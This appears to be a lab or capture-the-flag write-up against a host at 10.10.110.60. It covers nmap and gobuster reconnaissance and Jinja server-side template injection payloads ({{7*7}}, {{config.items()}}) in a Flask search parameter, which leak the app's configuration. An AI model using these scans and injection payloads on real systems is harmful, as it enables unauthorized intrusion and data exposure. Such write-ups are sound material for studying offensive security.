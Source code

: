 ## NMAP
```
nmap -p- -A -T4 10.10.110.60
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 12:53 PDT
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 73.90% done; ETC: 12:53 (0:00:08 remaining)
Stats: 0:02:18 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 89.12% done; ETC: 12:55 (0:00:17 remaining)
Nmap scan report for 10.10.110.60
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e228f4894851c4ab66b05a5f5c7e5c14 (ECDSA)
|_  256 e0baba30433d885a8ac7ec3b83781882 (ED25519)
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.4)
|_http-title: Genesis LLC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect res
```

## Gobuster
```
gobuster dir -u http://10.10.110.60 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
```
/products             (Status: 200) [Size: 3905]
```
Nothing in the directorys and could not run SQL Injection

Attempting SSTI
```
{{7*7}}

reports 49

```
http://10.10.110.60/products?search={{config.items()}}
```
Outputs
```
No results for dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```



